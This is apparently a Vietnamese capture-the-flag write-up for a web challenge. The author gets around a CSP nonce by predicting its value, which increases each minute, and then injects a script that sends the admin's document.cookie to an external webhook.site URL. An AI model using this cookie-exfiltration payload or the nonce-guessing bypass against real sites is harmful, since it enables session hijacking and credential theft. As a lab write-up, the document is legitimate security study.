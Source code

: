 Description
Our team is highly proficient in resolving a wide range of issues.

Whatever challenge you may be facing, simply present it to us, and we'll promptly provide a solution, and our employees get a cookie.


Challenge cung cấp cho tôi một trang report admin 


![1](./1.png)




Yeah mình đoán ngay được chúng ta có thể thực thi XSS ngay tại phần Description

![2](./2.png)


Mình thử XSS xem nào nhưng có vẻ nó không hoạt động

![3](./1.png)

Có vẻ như nó đã sử dụng CSP để chặn chúng ta thực thi XSS bằng cách sử dụng *nonce*  
**The 'nonce-value' token (keyword) (second notation 'nonce-<base64-value>') allows only trusted inline scripts and inline styles controlled by the protected page. Therefore, using it is a safer alternative 'unsafe-inline', which opens to execution any inline scripts and styles indiscriminately.**
Vì vậy chúng ta nhập đoạn script chứa nonce đúng với trang web nonce trang web cung cấp


![3](./3.png)


![4](./4.png)


Và mình nhận ra là mỗi phút nó sẽ tăng giá trị nonce lên 1 vậy chúng ta dễ dàng đoán được giá trị nonce tiếp theo và thực thi XSS thôi


```<script type="text/javascript" nonce="28088862">
document.location="	https://webhook.site/d04b07cc-67cc-487f-ab4f-731e51a013d2/?flag="+document.cookie;
</script>
```


Và boom we get the flag


![5](./9.png)
